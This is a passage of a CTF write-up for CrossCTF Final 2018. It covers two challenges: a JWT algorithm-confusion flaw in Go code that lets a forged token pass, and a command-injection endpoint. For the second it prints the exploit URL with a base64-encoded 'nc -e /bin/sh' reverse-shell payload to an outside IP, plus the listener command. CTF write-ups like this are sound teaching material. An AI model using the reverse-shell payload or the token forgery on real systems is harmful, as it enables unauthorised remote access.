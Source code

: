 I thought blockchain was cool, so I made my own coin.

GoCoin! Plus Plus is the forked and improved version of GoCoin! Plus.

Update: I've improved it! More secures and with real cryptos, it's a true cryptocoin now! Update: Stupid me wrote a broken challenge, now its really fixed!

http://ctf.pwn.sg:1389

Creator - quanyang (@quanyang)

[source](/blog/crossctf-final-2018-writeup/GoCoin!%20Plus%20Plus/source)

[pub.rsa](/blog/crossctf-final-2018-writeup/GoCoin!%20Plus%20Plus/pub.rsa)

## Solution

```go
token, err := jwt.Parse(myToken, func(token *jwt.Token) (interface{}, error) {
    if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
        key, err := jwt.ParseRSAPublicKeyFromPEM(myKey)
        return key, err
    }
    return myKey, nil
})
```

This is the part that is vulnerable. `myKey` can be both a rsa public key or a HMAC secret. Because HMAC is symmetric, we can change the info to whatever we like.

Using this [website](https://jwt.io/), we can hand craft our own jwt cookie to solve the challenge.

{{< figure src="/blog/crossctf-final-2018-writeup/GoCoin!%20Plus%20Plus/img.png" >}}

Flag: `CrossCTF{SORRY_I_AM_STUP!D!1!!1}`

# The Terminal

## Problem

How long more can you stand it?

http://ctf.pwn.sg:4083

## Solution

Most features on the website are distractions (we tried to find the flag in the cake image for a long time...)

In the end, we found `http://ctf.pwn.sg:4082/picturise/CMD` which allows us to run what ever command we like and return the output as a image.

Here is the url that we used in the end: `http://ctf.pwn.sg:4082/picturise/echo%20bmMgLWUgL2Jpbi9zaCAxNjUuMjI3LjI0MC4yMDQgODA=%20%7C%20base64%20-d%20%7C%20sh`

It is basically `echo PAYLOAD | base64 -d | sh`, and the payload is `nc -e /bin/sh ATTACK_IP 80` which opens up a reverse shell on th server (`nc -nvlp 80` on the attack server).
